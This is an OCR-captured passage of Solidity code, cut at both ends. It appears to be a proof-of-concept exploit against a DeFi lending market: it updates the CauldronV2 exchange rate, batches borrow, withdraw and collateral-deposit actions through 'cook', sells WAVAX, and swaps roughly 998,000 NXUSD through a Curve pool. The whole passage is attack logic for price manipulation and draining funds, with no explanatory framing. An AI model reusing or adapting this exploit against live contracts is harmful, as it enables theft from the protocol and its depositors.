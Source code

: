 │             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │
│         sellWAVAX();                                                                                                                                                                                                                                 │
│         // NXUSD -> avCRV -> USDC_e                                                                                                                                                                                                                  │
│         CRVPool1.exchange_underlying(                                                                                                                                                                                                                │
│             metaPool,                                                                                                                                                                                                                                │
│             0,                                                                                                                                                                                                                                       │
│             2,                                                                                                                                                                                                                                       │
│             998_000 * 1e18,                                                                                                                                                                                                                          │
│             950_000 * 1e6                                                                                                                                                                                                                            │